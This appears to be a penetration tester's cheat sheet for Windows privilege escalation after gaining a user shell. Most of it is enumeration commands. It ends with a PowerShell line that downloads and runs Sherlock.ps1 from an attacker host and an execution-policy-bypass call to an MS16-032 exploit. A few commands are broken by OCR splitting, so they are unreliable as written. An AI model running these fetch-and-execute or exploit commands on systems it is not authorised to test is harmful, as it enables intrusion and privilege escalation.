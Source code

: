 # Windows PrivEsc



My Methodology on that when I got user shell on machine before I start learning more.

- Upload and run winPEAS.bat for enumeration and going further with it's output.
- Getting MSF meterpreter shell and try get_system
- Listing running processes and searching for CVEs
- Living Off The Land Binaries and Scripts (and also Libraries) : https://lolbas-project.github.io/

# Enumeration

**Manual Check**

```powershell
C:\> whoami 
client251\student

C:\> net user student
C:\> net user
C:\> hostname
C:\> systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type" #OS info
C:\> gwmi win32_operatingsystem | % caption

C:\> tasklist /SVC #Running processes

C:\> ipconfig /all #Network info
C:\> route print   #Routing table

C:\> netstat -ano  #Running Net services + PID
c:\>tasklist | findstr 660 #660 PID from netstat

C:\> netsh advfirewall show currentprofile 					#Firewall Profile
C:\> netsh advfirewall firewall show rule name=all	#Firewall Rules

C:\> schtasks /query /fo LIST /v 										#Scheduled Tasks 

C:\> wmic qfe get Caption, Description, HotFixID, InstalledOn	#Patched Updates
C:\> wmic product get name, version, vendor 									#Installed Apps

C:\> accesschk.exe -uws "Everyone" "C:\Program Files"				 #Open For all
C:\> Powershell.exe Get-ChildItem "C:\Program Files" -R ecurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}

C:\> mountvol			#Show mounted drives

PS C:\> driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object ‘Dis
play Name’, ‘Start Mode’, Path   #Drivers and kernel modules

PS C:\> Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, D riverVersion, Manufacturer | Where-Object {$_.DeviceName -like "*VMware*"}  #Drivers and kernel modules

C:\> icacls "C:\Program Files\Serviio\bin\ServiioService.exe" #check for SIDs
C:\> 
C:\> 



PS C:temp> iex(new-object net.webclient).downloadstring('http://10.10.14.5/Sherlock.ps1')
PS C:temp> Find-AllVulns
OR
c:\>powershell.exe -exec bypass -Command "& {Import-Module .\exp2.ps1; Invoke-MS16-032}"

```